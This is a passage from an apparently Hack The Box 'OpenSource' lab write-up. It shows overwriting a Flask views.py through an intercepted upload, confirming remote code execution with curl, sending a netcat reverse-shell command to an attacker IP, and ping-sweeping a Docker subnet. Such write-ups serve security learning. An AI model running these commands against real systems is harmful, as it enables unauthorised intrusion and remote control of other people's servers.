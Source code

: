 Now we need to upload `views.py` but uploading it normally will place it in `/uploads` and that would be useless.

We can intercept the upload request with `burpsuite` and use the same method we used to bypass LFI filter to navigate to `/app/app/views.py`
![Intercepting request](/assets/img/HTB-opensource/burp.png)
![success](/assets/img/HTB-opensource/upload_success.png)
## Testing RCE
Sending a `POST` request to `/vymvn` using curl:
```shell
curl -X POST http://opensource.htb/vymvn -d "text=id"
```
![RCE test](/assets/img/HTB-opensource/RCE_test.png)
* **We have RCE!**

as root?

## Getting a reverse shell

Setting up listener:
```shell
nc -lvnp 6666
```
Sending reverse shell command:
```bash
curl -X POST --data "text=nc 10.10.14.27 6666 -e /bin/ash" opensource.htb/vymvn
```
> We know the shell is `/bin/ash` from the `/etc/passwd` file we got previously.
{: .prompt-tip }

![reverse shell](/assets/img/HTB-opensource/revshell.png)
After exploring the machine we can quickly realize that we are in a `Docker` container.

## Network enumration 
* The docker instance runs on its own interface (probably `docker0`)
* The docker interface has the network ip `172.17.0`

* Wrote a quick shell script to ping sweep the network and see who is up.

```shell
#!/bin/bash

for host in $(seq 0 255); do
	    ping -c 1 172.17.0.$host | grep "bytes from" | cut -d " " -f 4 &
done
```

We can see hosts from `.1` to `.9` are up.

Wrote another script to scan the ports on these hosts.

